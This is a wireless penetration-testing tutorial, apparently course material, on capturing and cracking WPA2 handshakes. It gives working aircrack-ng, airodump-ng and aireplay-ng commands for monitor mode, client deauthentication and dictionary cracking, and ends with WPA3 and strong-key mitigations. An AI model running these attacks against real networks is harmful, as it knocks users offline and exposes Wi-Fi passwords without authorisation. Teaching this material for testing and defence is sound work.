

1. Core Concept 🧠
Wireless Pentesting focuses on attacking IEEE 802.11 Wi-Fi networks. Attackers capture packets out of the air, attempt to crack encryption keys (WPA2/WPA3), setup evil twins to steal credentials, or disconnect legitimate users.
Real-world analogy: Unlike wired networks where you need physical access to plug in a cable, Wi-Fi bleeds out of the building. As an attacker, you can sit in the parking lot and "listen" to the entire conversation.
2. Attack Flow Visual 🎯
📡 Enable Monitor Mode (`airmon-ng`)
↓
🔍 Scan for Targets (`airodump-ng`)
↓
⚔️ Deauthenticate a Client (`aireplay-ng`)
↓
📦 Capture the WPA2 4-Way Handshake
↓
🏁 Offline Cracking (`aircrack-ng`)
Execution Mapping
| Step | Action | Tool / Command | Output |
|---|---|---|---|
| 1 | Monitor Mode | airmon-ng start wlan0 |
Interface changes to wlan0mon |
| 2 | Sniffing | airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon |
Capturing traffic on channel 6 |
| 3 | Deauth Attack | aireplay-ng -0 5 -a BSSID -c CLIENT_MAC wlan0mon |
Force client to disconnect/reconnect |
| 4 | Cracking | aircrack-ng -w wordlist.txt capture-01.cap |
KEY FOUND! [ password123 ] |
3. Hands-on Lab 🧪
🧪 Lab: WPA2 Handshake Capture & Cracking Simulator
🔍
Why the Deauth Attack? To get the Wi-Fi password (WPA2), we need to see the mathematical process of a client proving they know the password. This happens during connection (the 4-way handshake). If the client is already connected, we kick them off (Deauth). They auto-reconnect instantly, and we capture the handshake!
Architecture Diagram

Setup
# Since we cannot manipulate physical Wi-Fi hardware from inside a standard Docker/VM without passthrough,
# we use a provided .pcap (Packet Capture) file containing a pre-captured 4-way handshake for the lab.
cd ../../labs/wireless/
# Your file is: wpa2-handshake.capAttack Steps
- Verify the capture contains the EAPOL handshake:
aircrack-ng wpa2-handshake.cap - Select the target network listed (e.g., Target: "CorporateWiFi", BSSID: AA:BB...).
- Run the dictionary attack using Hashcat or Aircrack-ng:
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b AA:BB:CC:DD:EE:FF wpa2-handshake.cap - Watch the thousands of keys/second rate.
- Extract the successfully cracked pre-shared key (PSK).
Expected Output
Fix / Mitigation
Use WPA3, which mitigates offline dictionary attacks using Simultaneous Authentication of Equals (SAE). If WPA2 must be used, enforce a highly complex, non-dictionary Pre-Shared Key (PSK) of at least 15+ characters to make offline cracking mathematically unfeasible.